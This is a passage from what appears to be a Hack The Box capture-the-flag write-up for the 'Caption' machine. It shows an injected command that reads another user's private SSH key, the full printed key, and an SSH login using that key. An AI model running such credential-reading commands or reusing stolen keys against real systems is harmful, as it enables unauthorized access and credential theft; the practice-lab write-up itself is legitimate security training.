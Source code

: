 ```c
CALL EXECVE('cat /home/margo/.ssh/id_ecdsa');
```

![](images/2024-09-14_22-54_8080_margo_ssh_key.png)

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Caption/file]
└─$ cat ed_ecdsa_margo 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAaAAAABNlY2RzYS1zaGEy
LW5pc3RwMjU2AAAACG5pc3RwMjU2AAAAQQQjyF7qFayL8/0CV2KdKUEPZU1B3FD64EHgn4mqGfi3
G8dTuIfCMSE6HrIgV9yxlWLbCqZPbk6SlwYzszeaXjioAAAAoJz1R/ac9Uf2AAAAE2VjZHNhLXNo
YTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCPIXuoVrIvz/QJXYp0pQQ9lTUHcUPrgQeCfiaoZ
+Lcbx1O4h8IxIToesiBX3LGVYtsKpk9uTpKXBjOzN5peOKgAAAAhAMIQb0fdHIUM5nGdHRjrrGmW
+XK6gHM0wM5DxDY+bDCTAAAAAAECAwQFBgc=
-----END OPENSSH PRIVATE KEY-----
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Caption/file]
└─$ chmod 600 ed_ecdsa_margo
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Caption/file]
└─$ ssh -i ed_ecdsa_margo margo@caption.htb
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Sep 14 08:56:23 PM UTC 2024

  System load:  0.04              Processes:             231
  Usage of /:   70.5% of 8.76GB   Users logged in:       0
  Memory usage: 26%               IPv4 address for eth0: 10.129.194.20
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

3 additional security updates can be applied with ESM Apps.
```